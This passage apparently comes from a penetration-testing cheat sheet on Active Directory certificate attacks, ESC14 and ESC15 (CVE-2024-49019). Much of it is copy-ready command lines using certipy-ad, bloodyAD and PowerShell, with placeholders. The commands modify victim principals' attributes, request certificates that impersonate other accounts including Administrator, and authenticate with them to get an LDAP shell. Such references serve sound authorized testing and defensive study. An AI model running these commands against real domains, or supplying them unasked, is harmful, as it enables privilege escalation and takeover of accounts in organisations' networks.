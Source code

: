1. If the victim principal is a user:
- Rename the victim principal (i.e., set the `cn` and `name` attribute) to the name of the target's `X509SubjectOnly` mapping `SubjectName` identifier
2. If the victim principal is a computer:
Set the `dNSHostName` attribute of the victim principal to the name of the target's `X509SubjectOnly` mapping `SubjectName` identifier
3. Enroll a certificate in the affected certificate template as the victim principal
4. Authenticate as the target principal using the certificate

#### Usage

##### Scenario B: Target with X509RFC822 (email)

```console
$ python3 entry.py find -u '<USERNAME>@<DOMAIN>' -hashes ':<HASH>' -dc-ip <RHOST> -esc14 -vulnerable -stdout -debug
```

```powershell
PS C:\> Set-ADUser -Identity <USERNAME> -Add @{'altSecurityIdentities'='X509:<RFC822>foobar@domain.local'}
```

```console
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> set object <USERNAME> mail -v foobar@domain.local
```

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -hashes '<HASH>' -template '<TEMPLATE>'
```

```console
$ certipy-ad auth -pfx <FILE>.pfx -domain '<DOMAIN>' -username '<USERNAME>'
```

### ESC15: Arbitrary Application Policy Injection in V1 Templates (CVE-2024-49019 "EKUwu")

#### Prerequisites

- Unpatched `CA` missing relevant `security patches` (`November 2024`)
- Primarily affect `Version 1` templates that also have the "`Enrollee supplies subject`" (`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`) setting enabled

#### Usage

##### Scenario A: Direct Impersonation via Schannel (Injecting "Client Authentication" Application Policy)

```console
$ certipy-ad req -u '<USERNAME>@<DOMAIN>' -p '<PASSWORD>' -dc-ip '<RHOST>' -target '<RHOST>' -ca '<CA>' -template 'WebServer' -upn 'Administrator@<DOMAIN>' -sid 'S-1-5-21-...-500' -application-policies 'Client Authentication'
```

```console
$ certipy-ad auth -pfx 'Administrator.pfx' -dc-ip '<RHOST>' -ldap-shell
```
